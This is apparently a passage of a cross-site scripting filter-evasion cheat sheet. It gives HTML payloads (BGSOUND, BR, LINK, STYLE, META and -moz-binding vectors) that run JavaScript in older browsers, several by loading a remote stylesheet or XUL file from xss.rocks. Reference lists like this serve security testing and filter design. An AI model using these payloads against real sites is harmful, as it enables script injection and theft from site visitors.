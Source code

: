 ````
105.  `seekSegmentTime()` (this is a method that locates the specified point on the element’s segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

BGSOUND
-------

`<BGSOUND SRC="javascript:alert('XSS');">`

& JavaScript includes
---------------------

`<BR SIZE="&{alert('XSS')}">`

STYLE sheet
-----------

`<LINK REL="stylesheet" HREF="javascript:alert('XSS');">`

Remote style sheet
------------------

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won’t work unless there is some content on the page other than the vector itself, so you’ll need to add a single letter to the page to make it work if it’s an otherwise blank page:

`<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">`

Remote style sheet part 2
-------------------------

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

`<STYLE>@import'http://xss.rocks/xss.css';</STYLE>`

Remote style sheet part 3
-------------------------

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

`<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">`

Remote style sheet part 4
-------------------------

This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast majority of sites:

`<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>`

STYLE Tags with Broken-up JavaScript for XSS
````